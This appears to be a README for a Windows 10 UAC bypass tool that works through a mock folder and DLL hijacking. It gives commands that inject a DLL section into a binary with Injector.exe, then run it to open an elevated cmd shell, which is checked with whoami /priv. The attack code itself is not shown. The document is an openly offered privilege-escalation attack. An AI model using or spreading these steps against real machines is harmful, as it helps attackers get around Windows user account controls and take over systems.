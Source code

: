 # Bypassing Windows 10 with mock folder and DLL Hijacking  
## Auto

**Steps**
1. Inject the DLL into the binary
2. 2. Start the binary will open cmd in UAC privilege!

In the cmd go to the folder that "Injector.exe" is inside.
Type the command:

```cmd
Injector.exe <.SectioName> <Binary_path> <DLL_path>
```

For Example:
```cmd
Injector.exe .DLL BypassUAC.exe DLL_BypassUAC.dll
```
To check if the section is injected successfully you can open the binary in "CFF Explorer" software.

Start the binary!

To check if its works type in the new cmd that now opened:
```cmd
whoami /priv
```

CFF Explorer:
https://ntcore.com/?page_id=388
